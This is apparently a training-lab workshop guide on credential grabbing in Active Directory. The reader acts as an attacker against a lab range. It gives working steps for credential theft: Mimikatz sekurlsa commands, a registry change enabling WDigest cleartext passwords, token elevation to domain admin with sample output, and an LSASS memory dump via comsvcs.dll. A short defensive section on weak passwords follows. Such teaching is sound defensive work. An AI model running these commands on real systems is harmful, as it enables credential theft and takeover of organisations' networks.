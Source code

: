 # Credential Grabbing

In this workshop, you will be acting as the threat actor (TA). To begin, you will be connecting to the "Windows Attack Server" system within the range. This system serves as the external system from which the TA begins their attack.
- Yes, this system is technically on the same network as the rest of the servers. You're pretending as though it's external to the network. So plet's play pretend and move along ;).

## Initial Connections

1. Connect to the "Windows Attack Server" host.
    1. Under the "Connections" list, click the "Windows Attack Desktop" link
    
    ![](dc31-initial_connection.png)
    
    - Once the session loads in your browser, you will be at the desktop of the Windows Attack Desktop machine. Now that you are here, you will initiate the RDP session to the victim network.
    
1. Launch Remote Desktop Connection to begin the attack:
   1. Use `mstsc` or simply choose "Start" -> "Remote Desktop Connection"
1. Click "Show Options" at the bottom-left of the window so that you can fill out the destination machine & user details
    1. Computer: `172.31.24.111`
        - This is the IP address of the `TWORIVERS` host. Though this is an internal IP, you are pretending as though this is how the TA is connecting into the victim environment from the outside.
    1. User name: `172.31.24.111\Administrator`
        - Make sure to enter the IP + slash designation before the username.
        
    ![](dc31-mstsc_config.png)
    
1. Click "Connect" at the bottom-right to initiate the RDP session
1. When prompted, enter the Administrator user's password:
    - `Summerishere@2023!`

*CONGRATS!* You are now connected into the victim environment.

Again, we are pretending as though the TA, _you_ in this case, was able to connect to RDP because they obtained the Administrator account's password. This could have been obtained via brute forcing, password spraying, credential stuffing, purchasing from an initial access broker (see [for528.com/iab](https://for528.com/iab) to learn more).

Our focus is not on obtaining initial access, but rather attacks on AD once access has been obtained -- So let's keep going!!

## Accessing Credentials

Once obtaining access a new environment, TAs will often run initial discovery/enumeration commands to identify their current account context, basic domain information, etc.
- For example, the former Conti ransomware team was found to provide an attack playbook to their affiliate groups called "Cobalt strike MANAULS_v2 Active Directory" that focused on AD-based attacks. The very first step in this manual involved general discovery commands:

    ![](dc31-conti_playbook.png)

In this case, the TA has accessed the environment using a local Administrator account. This account does not have LDAP query permissions. Thus, the TA needs to obtain access to a domain account.

Let's access some credentials!

1. Open PowerShell as Administrator
    1. Start menu -> Type `powershell` -> Right-click on "Windows PowerShell" and select "Run as administrator"
        1. Do _not_ use "PowerShell 7 (x64)" or double-click "PowerShell 7" on the desktop, as we do not want PS7/Core
    1. Click "Yes" on the UAC prompt

1. Extract Mimikatz:
    1. `cd c:\Users\Public\Desktop\LAB_FILES\assets`
    1. `expand-archive mimikatz_trunk.zip`

1. Run mimikatz meow.
   1. `cd .\mimikatz_trunk\x64\`
   1. `.\mimikatz.exe`
   
   1. In Mimikatz terminal @ `mimikatz #`:
   
        ```
        privilege::debug
        log m.txt
        sekurlsa::logonpasswords
        sekurlsa::wdigest
        ```

1. Launch a separate PowerShell window as admin and run:

    ```powershell    
    reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
    runas /user:wheel\Administrator notepad.exe
    password: 12qwaszx!@QWASZX
    ```

    - Minimize the `notepad` process window. **DO NOT close this window**
    - We're using RunAs to emulate a process being run via the `wheel\administrator` account.
    
1. Back in mimikatz:
   1. `sekurlsa::logonpasswords`
   1. `sekurlsa::wdigest`

>Yay clear text pw!

8. Elevate

`mimkatz # token::elevate /domainadmin`

    - Expected output:
        ```
        mimikatz # token::elevate /domainadmin
        Token Id  : 0
        User name :
        SID name  : WHEEL\Domain Admins

        3804    {0;00e652ef} 3 D 15095083       WHEEL\Administrator     S-1-5-21-2920872554-2728211966-3144411165-500   (16g,24p)       Primary
         -> Impersonated !
         * Process Token : {0;006de2b6} 3 D 15016662    CLIENT01\Administrator  S-1-5-21-1871320352-3388450030-3539921296-500   (14g,24p)       Primary
         * Thread Token  : {0;00e652ef} 3 D 15181987    WHEEL\Administrator     S-1-5-21-2920872554-2728211966-3144411165-500   (16g,24p)       Impersonation (Delegation)\
        ```

**CONGRATS!! You are not elevated to a domain admin account!



## Other way lolbins
1. in an local admin powershell:
```
get-process lsass

rundll32.exe c:\Windows\system32\comsvcs.dll, MiniDump <pid> C:\Windows\temp\mini.dump full
```

2. In mimikatz (this can be done "offline")
```
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonPasswords full

```

----

## BONUS: Weak Passwords

That Administrator account password (`Summerishere@2023!`) is weak, right? You might be surprised how often this type of password is found in large-scale environments. Back in 2015/16, the Iranian-based APT33 group capitalized on the prevalence of passwords that include the season or month + year in attacks against the US energy sector. These attacks proved highly successful, yet nearly a decade later, we still see these passwords in use in organizations around the world.

For a daily-updated list of insecure passwords that follow this schema, i.e. passwords that you and your users _should avoid at all costs_, see:
[weakpasswords.net](http://weakpasswords.net/).

### Prevention

If you use Azure AD, you can use [Azure AD Password Protection](https://for528.com/azure-pass) to deny your users the ability to include strings such as months, seaons, and years in their passwords.

If you are fully on-prem, you can begin by working with the [passfilt.dll options](https://for528.com/passfilt). This is a beginning step. If you want tighter control over passwords, _which you do_, you can look into commercial replacement for `passfilt.dll` or better yet review the open source [PassFiltEx project](https://for528.com/passfiltex).

